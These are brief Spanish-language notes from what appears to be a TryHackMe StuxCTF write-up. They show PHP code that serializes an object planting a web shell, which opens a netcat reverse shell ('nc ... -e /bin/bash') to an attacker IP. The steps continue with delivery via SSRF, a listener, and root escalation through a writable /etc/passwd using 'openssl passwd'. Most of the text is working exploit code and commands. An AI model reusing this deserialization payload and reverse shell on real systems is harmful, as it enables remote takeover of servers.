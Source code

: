 Crear archivo php:
```php
<?php
class file {
  public $file = "myshell.php";
  public $data = '<?php shell_exec("nc 10.11.89.110 1234 -e /bin/bash");?>';
}
echo (serialize(new file));
?>
```
serializarlo:
```bash
php file.php > file.txt
```
Hacer una llamada desde la web (SSRF) a nuestro server para coger file.txt.
Buscar myshell.php con  el puerto 1234 en escucha.
Reconocimiento. /etc/passwd writeable

openssl passwd Hola.
https://tonyrahmos.medium.com/stuxctf-tryhackme-writeup-72cd53f0539


